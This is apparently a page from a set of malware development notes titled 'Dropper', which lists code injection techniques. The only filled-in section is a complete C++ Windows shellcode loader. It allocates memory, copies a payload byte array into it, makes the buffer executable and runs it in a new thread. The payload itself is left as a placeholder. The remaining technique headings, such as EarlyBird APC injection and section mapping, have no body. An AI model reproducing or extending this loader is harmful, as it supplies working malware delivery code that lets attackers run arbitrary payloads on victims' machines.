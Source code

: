 ```yaml
---
title: Dropper
category: Malware Development
order: 2
---
```


Code Injection techniques.

# Basic Loader (VirtualAlloc)

```cpp
#include <windows.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int main(void) {
    
	void * exec_mem;
	BOOL rv;
	HANDLE th;
    DWORD oldprotect = 0;

	unsigned char payload[] = { 0x00, 0x00,...};
	unsigned int payload_len = sizeof(payload);

	// Allocate a memory buffer for payload
	exec_mem = VirtualAlloc(0, payload_len, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);

	// Copy payload to new buffer
	RtlMoveMemory(exec_mem, payload, payload_len);

	// Make new buffer as executable
	rv = VirtualProtect(exec_mem, payload_len, PAGE_EXECUTE_READ, &oldprotect);

	if ( rv != 0 ) {
			th = CreateThread(0, 0, (LPTHREAD_START_ROUTINE) exec_mem, 0, 0, 0);
			WaitForSingleObject(th, -1);
	}

	return 0;
}
```

# Remote Process (VirtualAllocEx)


# Thread Context (GetThreadContext)


# Sections and View (NtMapViewOfSection)


# EarlyBird (QueueUserAPC)


# ApiReeKall (RtlRemoteCall)


# COFF Loader (mokosh)